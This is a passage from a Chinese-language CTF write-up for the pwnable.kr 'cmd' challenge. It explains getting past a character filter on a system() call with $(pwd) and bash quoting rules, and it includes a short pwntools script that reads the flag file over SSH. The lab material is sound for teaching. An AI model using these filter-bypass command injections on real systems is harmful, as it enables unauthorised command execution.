 ```python
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```

这次连斜杠都给过滤了。。。

但是 bash里可以用 $()取值

比如我们cd 到根目录

$(pwd)就相当于斜杠了

然后就可以绕过了

还有一个坑点是

不能用“”包裹参数了

因为如下

bash里面关于单引号，双引号，反斜杠的处理

字符 | 说明
:-: | :-: 
’(单引号)|又叫硬转义，其内部所有的shell 元字符、通配符都会被关掉。注意，硬转义中不允许出现’(单引号)
“”(双引号)|	又叫软转义，其内部只允许出现特定的shell 元字符：$用于参数代换 `用于命令代替
\\(反斜杠)	|又叫转义，去除其后紧跟的元字符或通配符的特殊意义。

Exp:

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='cmd1',password='guest',port=2222)
#shell.download_file('./cmd1.c')
sh = shell.run('./cmd1 "/bin/cat fl*" ')
sh.interactive()
```

## 0x10 uaf

### 前置知识：类重载·虚函数
